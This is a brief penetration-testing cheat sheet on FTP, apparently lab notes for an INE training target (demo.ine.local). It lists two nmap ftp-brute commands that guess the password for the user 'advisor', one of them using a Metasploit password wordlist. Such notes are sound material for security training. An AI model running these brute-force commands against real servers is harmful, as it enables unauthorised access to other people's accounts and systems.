 # FTP

Perform brute force against ftp server with user advisor

* <mark style="color:yellow;">nmap --script=ftp-brute --script-args user=advisor demo.ine.local</mark>

#### Brute forcing by defining specific user and password list file:

* <mark style="color:yellow;">nmap --script=ftp-brute --script-args user=advisor,passdb=/usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt demo.ine.local</mark>

